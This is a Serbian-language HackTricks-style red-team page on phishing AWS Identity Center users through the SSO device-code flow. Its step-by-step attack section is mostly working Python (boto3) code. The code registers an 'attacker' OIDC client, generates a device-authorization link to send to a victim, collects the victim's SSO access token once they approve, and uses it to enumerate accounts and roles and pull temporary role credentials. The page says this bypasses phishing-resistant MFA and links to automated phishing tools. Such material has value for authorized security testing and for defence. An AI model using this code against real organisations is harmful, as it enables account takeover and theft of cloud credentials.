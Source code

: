 # AWS - Centar identiteta i SSO Neautentifikovano Enumerisanje

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJEM**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## AWS Fishing sa Kodom uređaja

Inicijalno predloženo u [**ovom blog postu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), moguće je poslati **link** korisniku koristeći AWS SSO, koji ako **korisnik prihvati**, napadač će moći dobiti **token za impersonaciju korisnika** i pristupiti svim ulogama koje korisnik može pristupiti u **Centru identiteta**.

Da bi se izveo ovaj napad, potrebni su:

* Žrtva mora koristiti **Centar identiteta**
* Napadač mora znati **poddomen** koji koristi žrtva `<victimsub>.awsapps.com/start`

Samo sa prethodnim informacijama, **napadač će moći poslati link korisniku** koji će, ako **bude prihvaćen**, omogućiti **napadaču pristup nad AWS korisničkim** nalogom.

### Napad

1. **Pronalaženje poddomena**

Prvi korak napadača je da otkrije poddomen koji koristi kompanija žrtve u svom Centru identiteta. To se može uraditi putem **OSINT-a** ili **pogađanja + BF** jer će većina kompanija koristiti svoje ime ili varijaciju svog imena ovde.

Sa ovim informacijama, moguće je saznati region gde je Centar identiteta konfigurisan sa:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generišite link za žrtvu & Pošaljite ga**

Pokrenite sledeći kod kako biste generisali AWS SSO link za prijavljivanje kako bi žrtva mogla da se autentifikuje.\
Za demonstraciju, pokrenite ovaj kod u Python konzoli i nemojte je zatvarati jer će vam kasnije biti potrebni neki objekti za dobijanje tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Sačekajte dok žrtva ne prihvati**

Ako je žrtva **već prijavljena u AWS**, samo će trebati da prihvati davanje dozvola, ako nije, moraće se **prijaviti, a zatim prihvatiti davanje dozvola**.\
Ovako danas izgleda prozor zahteva:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Dobijanje SSO pristupnog tokena**

Ako je žrtva prihvatila zahtev, pokrenite ovaj kod da **generišete SSO token koji će se predstavljati kao korisnik**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO pristupni token je **važeći 8 sati**.

5. **Impersonate the user**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Ribarenje neuhvatljivog MFA

Zabavno je znati da prethodni napad **radi čak i ako se koristi "neuhvatljivi MFA" (webAuth)**. To je zato što prethodni **tok rada nikada ne napušta korišćenu OAuth domenu**. Za razliku od drugih napada ribarenja gde korisnik mora zameniti domen za prijavljivanje, u slučaju da je tok rada sa kodom uređaja pripremljen tako da **kod poznaje uređaj** i korisnik može da se prijavi čak i na drugom računaru. Ako se prihvati upit, uređaj, samo **znajući početni kod**, moći će da **dobije pristupne podatke** za korisnika.

Za više informacija o ovome [**proverite ovaj post**](https://mjg59.dreamwidth.org/62175.html).

### Automatski alati

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Reference

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
